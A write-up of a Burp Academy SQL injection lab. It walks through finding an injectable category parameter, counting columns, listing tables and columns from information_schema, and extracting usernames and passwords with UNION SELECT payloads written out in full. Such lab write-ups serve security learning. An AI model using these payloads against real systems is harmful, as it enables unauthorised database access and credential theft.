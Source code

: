 ```yaml
---
description: A walkthrough of one of the Burp Academy Labs
---
```


# SQLi Walkthrough

## Intro

When we enter the room are presented with a web page:

![](../.gitbook/assets/image%20%2811%29.png)

## Injection Point

From here we search for our parameter that is injectable, clicking on one of the product categories we find an injection point:

![&quot;category=gifts&quot; is our injection point](../.gitbook/assets/image%20%289%29.png)

## Counting Columns

First we need to craft a statement that will identify how many columns are in the table:

```text
' ORDER BY 1,2--
```

![](../.gitbook/assets/image%20%285%29.png)

The page loads with 2, and errors at 3, so there are 2 columns we have discovered. we can double check this with the following:

```text
' UNION SELECT NULL,NULL--
```

![](../.gitbook/assets/image%20%2815%29.png)

## Strings?

Next we have to discover if any of these columns can take a string value, we can add 'a' in place of the null to test this:

![](../.gitbook/assets/image%20%286%29.png)

![](../.gitbook/assets/image%20%2813%29.png)

## Find Table Names

Next we should discover which tables are located within the database.

```text
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

![](../.gitbook/assets/image%20%288%29.png)

From the list displayed we can find any interesting tables:

![](../.gitbook/assets/image%20%2812%29.png)

## Find Column Names

We now need to discover which columns are within this table, using the following:

```text
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_uiykfb'--
```

![](../.gitbook/assets/image%20%2810%29.png)

## Sweet Sweet Data

Now we have the column names we can get the data!

```text
' UNION SELECT username_kwdcsh,password_possgi FROM users_uiykfb--
```

![](../.gitbook/assets/image%20%287%29.png)

